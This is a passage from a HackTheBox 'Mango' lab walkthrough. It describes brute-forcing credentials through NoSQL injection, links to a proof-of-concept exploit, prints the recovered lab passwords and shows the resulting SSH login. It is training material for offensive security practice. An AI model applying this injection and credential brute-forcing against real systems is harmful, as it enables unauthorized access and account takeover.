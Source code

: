 ![image-20240119041310994](./Mango.assets/image-20240119041310994.png)

- Write python code to brute force username and password (convert curl command with python code: [Convert curl commands to code (curlconverter.com)](https://curlconverter.com/))
- **EXP**: [zhsh9/THB-POC-MongoDB-Injection: HackTheBox Mango: NoSQL Injection Exploit to Brute Force Username & Password. (github.com)](https://github.com/zhsh9/THB-POC-MongoDB-Injection)

```console
[!] Found the username: admin
[!] Found the password: t9KcS3>!0B#2
[!] Found the username: mango
[!] Found the password: h3mXK8RhU~f{]f5H
```

- two creds: ssh as mango

```console
$ ssh mango@$IP
The authenticity of host '10.10.10.162 (10.10.10.162)' can't be established.
ED25519 key fingerprint is SHA256:tzYGTA/kNsB/kThvsmrv2uxaUS/2zS/grRQkrbN4+RE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.162' (ED25519) to the list of known hosts.
mango@10.10.10.162's password:
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan 18 13:50:40 UTC 2024

  System load:  0.01              Processes:           102
  Usage of /:   57.9% of 5.29GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

118 packages can be updated.
```
